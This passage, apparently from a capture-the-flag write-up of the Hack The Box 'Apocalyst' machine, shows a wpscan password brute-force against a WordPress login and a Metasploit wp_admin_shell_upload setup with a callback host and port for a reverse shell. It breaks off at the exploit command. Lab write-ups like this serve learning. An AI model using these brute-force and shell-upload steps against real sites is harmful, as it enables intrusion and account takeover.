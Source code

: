 ```{r, engine='bash', count_lines}
wpscan -u 10.10.10.46 -U falaraki -w /root/Downloads/list.txt 

[+] Starting the password brute forcer
  [!] ERROR: We received an unknown response for login: falaraki and password: Transclisiation
  Brute Forcing 'falaraki' Time: 00:00:15 <========= > (481 / 487) 98.76%  ETA: 00:00:00

  +----+----------+------+----------+
  | Id | Login    | Name | Password |
  +----+----------+------+----------+
  |    | falaraki |      |          |
  +----+----------+------+----------+

[+] Finished: Thu Nov  2 18:20:41 2017
[+] Requests Done: 538
[+] Memory used: 24.066 MB
[+] Elapsed time: 00:00:19


```

Alright Wpscan didn't recognize it as a successfull login, however the response was different to all the others. So lets try to login on http://apocalyst.htb/wp-login with **falaraki:Transclisiation** and indeed we got admin creds for wp.

So apparently Metasploit is able to upload a shell when you have admin creds.

```{r, engine='bash', count_lines}
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   WordPress


msf exploit(wp_admin_shell_upload) > set PASSWORD Transclisiation
PASSWORD => Transclisiation
msf exploit(wp_admin_shell_upload) > set USERNAME falaraki
USERNAME => falaraki
msf exploit(wp_admin_shell_upload) > set RHOST 10.10.10.46
RHOST => 10.10.10.46
msf exploit(wp_admin_shell_upload) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
msf exploit(wp_admin_shell_upload) > set LPORT 12345
LPORT => 12345
msf exploit(wp_admin_shell_upload) > exploit

```